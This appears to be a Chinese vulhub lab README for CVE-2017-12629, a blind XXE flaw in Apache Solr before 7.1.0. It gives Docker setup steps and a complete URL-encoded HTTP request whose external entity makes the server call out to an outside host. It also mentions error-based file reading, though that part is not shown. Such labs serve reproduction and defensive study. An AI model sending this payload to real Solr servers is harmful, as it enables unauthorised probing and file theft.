

# Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20root%20%5B%0A%3C!ENTITY%20%25%20remote%20SYSTEM%20%22https%3A%2F%2Fbaidu.com%2F%22%3E%0A%25remote%3B%5D%3E%0A%3Croot%2F%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

可接受到Java发来的请求：



利用Error Based XXE读取文件：


